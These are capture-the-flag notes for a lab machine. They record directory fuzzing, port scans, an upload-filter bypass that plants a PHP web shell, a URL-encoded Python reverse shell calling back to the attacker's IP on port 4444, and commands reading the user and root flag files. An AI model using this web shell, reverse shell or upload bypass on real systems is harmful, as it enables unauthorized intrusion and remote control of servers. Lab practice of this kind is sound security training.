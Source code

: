 
FUFF

js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]


RUSTSCAN

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

FFUF

root@ip-10-10-174-245:~# ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -u  http://10.10.137.93/panel/FUZZ 


index.php               [Status: 200, Size: 732, Words: 175, Lines: 23]

/panel/ == upload page
root@ip-10-10-174-245:~# cp /usr/share/webshells/php/php-reverse-shell.php .
root@ip-10-10-174-245:~# chmod +x php-reverse-shell.php 
root@ip-10-10-174-245:~# subl php-reverse-shell.php 


NAMP 


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:EE:F2:A3:72:A5 (Unknown)

UPLOAD

<?php
    echo system($_GET["cmd"]);
?>


http://10.10.137.93/uploads/sss.php5?cmd=ls

USER flag

view-source:http://10.10.137.93/uploads/sss.php5?cmd=cat%20/var/www/user.txt


/usr/bin/python

SHELL
view-source:http://10.10.137.93/uploads/sss.php5?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.174.245%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27



READ ROOT FLAG

```
python -c 'print(open("/root/root.txt").read())'
```
